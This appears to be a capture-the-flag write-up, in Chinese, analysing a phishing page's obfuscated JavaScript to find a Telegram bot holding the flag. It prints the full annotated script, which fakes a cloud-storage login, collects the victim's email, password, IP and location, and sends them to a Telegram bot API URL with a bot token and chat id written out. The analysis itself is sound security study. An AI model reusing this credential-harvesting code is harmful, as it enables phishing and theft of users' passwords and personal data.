 - # 思路
	- 读取首页的JS找到一个telegram bot, 访问看到flag
- # 解密JS
	- 带注释的源码如下
	  collapsed:: true
		- ```js
		  var jsdom = require("jsdom");
		  const { JSDOM } = jsdom;
		  const { window } = new JSDOM();
		  const { document } = (new JSDOM('')).window;
		  global.document = document;
		  
		  var $ = jQuery = require('jquery')(window);
		  
		  var A = B;
		  function B(C, D) {
		      var E = F();
		      return B = function (Bbb, G) {
		          Bbb = Bbb - 0xb7;
		          var H = E[Bbb];
		          return H;
		      },
		      B(C, D);
		  }(function (I, J) {
		      var K = B,
		          L = I();
		      while (!![]) {
		          try {
		              var M = -parseInt(K(0xe9)) / 0x1 + -parseInt(K(0xda)) / 0x2 + parseInt(K(0xc0)) / 0x3 * (-parseInt(K(0xb8)) / 0x4) + parseInt(K(0xd6)) / 0x5 + -parseInt(K(0xe0)) / 0x6 * (-parseInt(K(0xd5)) / 0x7) + parseInt(K(0xb7)) / 0x8 * (-parseInt(K(0xe3)) / 0x9) + -parseInt(K(0xe1)) / 0xa * (parseInt(K(0xdb)) / 0xb);
		              if (M === J) 
		                  break;
		               else 
		                  L['push'](L['shift']());
		              
		          } catch (N) {
		              L['push'](L['shift']());
		          }
		      }
		  }(F, 0xa9b1c));
		  
		  console.log("HERE: " + A(0xd7))
		  var elem = $(A(0xb9)), // submit按钮
		      elem1 = A(0xde), // bot的token
		      elem2 = A(0xd7), // 一个tg的id 5852841790
		      email = $(A(0xc2))[A(0xc9)](), //email输入框的值
		      domain = email[A(0xe4)](email["substring"]('@') + 0x1),
		      frmsite = domain[A(0xe4)](0x0, domain["substring"]('.'));
		  const str = frmsite + A(0xce), //xxx cloud storage
		      str2 = str[A(0xbd)](0x0)[A(0xeb)]() + str[A(0xe7)](0x1); // str第一个字母大写
		  // console.log("HERE: "+A(0xc4) + str2 + '\x20by\x20Zach\x20A**' + '\x0a\x0a' + A(0xe2) + $(A(0xc2))[A(0xc9)]() + '\x0a' + A(0xc7) + $(A(0xd9))[A(0xdf)]() + '\x0a' + 'IP\x20Address\x20:\x20' + "ip" + '\x0a' + A(0xe6) + "region" + '\x0a' + A(0xc3) + A(0xc8) + '\x0a' + A(0xbe) + "country" + '\x0a' + A(0xed) + "ua" + '\x0a' + A(0xcc) + $(A(0xea))[A(0xdf)]() + '\x0a' + A(0xd8) + A(0xc6) + '\x0a' + A(0xbf) + $(A(0xc5))[A(0xdf)]())
		  let today = new Date()[A(0xc6)]();
		  $(A(0xba))[A(0xe5)](str2), //dname append str2
		  $('#title')[A(0xe5)](str2), // title append str2
		  $(A(0xc1))['append'](A(0xbb) + domain + A(0xd4)), // dlogo append img元素
		  $(A(0xdd))[A(0xe5)](A(0xcd) + domain + '\x22>'), // head append <link rel="icon" href="https://logo.clearbit.com/undefined">
		  document[A(0xe8)][A(0xd0)]['background'] = A(0xca) + domain + '\x27)',
		  elem['on'](A(0xec), function (O) {
		      var P = A;
		      //  获取IP等隐私并通过TG发送                                            获取IP的API   获取IP后会运行的函数
		      $('#inputPassword')[P(0xdf)]() === '' ? alert(P(0xcb)) : $['getJSON'](P(0xcf), function (Q) {
		          var R = P,
		              S = Q['ip'],
		              T = Q[R(0xc8)],
		              U = Q['region'],
		              V = Q['country'],
		              W = navigator['userAgent'];
		          let X = new Date()[R(0xc6)]();
		          var Y = R(0xc4) + str2 + '\x20by\x20Zach\x20A**' + '\x0a\x0a' + R(0xe2) + $(R(0xc2))[R(0xc9)]() + '\x0a' + R(0xc7) + $(R(0xd9))[R(0xdf)]() + '\x0a' + 'IP\x20Address\x20:\x20' + S + '\x0a' + R(0xe6) + U + '\x0a' + R(0xc3) + T + '\x0a' + R(0xbe) + V + '\x0a' + R(0xed) + W + '\x0a' + R(0xcc) + $(R(0xea))[R(0xdf)]() + '\x0a' + R(0xd8) + X + '\x0a' + R(0xbf) + $(R(0xc5))[R(0xdf)](),
		              Z = R(0xdc) + A(0xde) + R(0xd3); // TG机器人的API地址
		          $[R(0xd2)](Z, {
		              'chat_id': elem2, // 一串数字
		              'text': Y // 各类隐私信息
		          }, function (AA) {
		              var AB = R;
		              window['location'][AB(0xee)] = AB(0xd1); // 一个语音留言
		          });
		      });
		  });
		  function F() {
		      var AC = [
		          'val',
		          '12ZidQyC',
		          '20AFlrCY',
		          'Email:\x20',
		          '63792quNVYn',
		          'substring',
		          'append',
		          'Region\x20:\x20',
		          'slice',
		          'body',
		          '139437pXYFEK',
		          '#UserEmail',
		          'toUpperCase',
		          'click',
		          'Useragent\x20:\x20',
		          'href',
		          '88GpIPQU',
		          '904cdojGd',
		          '#submit',
		          '#dname',
		          '<img\x20class=\x22mb-4\x22\x20src=\x22https://logo.clearbit.com/',
		          'lastIndexOf',
		          'charAt',
		          'Country\x20:\x20',
		          'DateSent\x20:\x20',
		          '10311YpzJVd',
		          '#dlogo',
		          '#emailtext',
		          'City\x20:\x20',
		          '***',
		          '#DateSent',
		          'toLocaleDateString',
		          'Password\x20:\x20',
		          'city',
		          'text',
		          'url(\x27https://logo.clearbit.com/',
		          'Password\x20field\x20missing!',
		          'Format\x20:\x20',
		          '<link\x20rel=\x22icon\x22\x20href=\x22https://logo.clearbit.com/',
		          '\x20Cloud\x20Storage',
		          'https://ip.seeip.org/geoip',
		          'style',
		          'https://archive.org/details/VoiceMail_173',
		          'post',
		          '/sendMessage',
		          '\x22\x20alt=\x22\x22\x20width=\x22150\x22\x20\x20>',
		          '4716964xBODFJ',
		          '3724320KAqSuZ',
		          '5852841790',
		          'Date\x20Filled\x20:\x20',
		          '#inputPassword',
		          '380874lxWkrT',
		          '1170928pBbGzs',
		          'https://api.telegram.org/bot',
		          'head',
		          '6055124896:AAFyQlC_8dr1GndB26ji4iV2ol2bPPQ9lq4'
		      ];
		      F = function () {
		          return AC;
		      };
		      return F();
		  }
		  
		  ```
	- 可以看到其会在用户点击按钮后将用户的IP等信息发送到TG bot
	- 访问接口可以看到bot的地址为[https://t.me/rochesterissodamncoldbot](https://t.me/rochesterissodamncoldbot)
	- 查看bot即可得到flag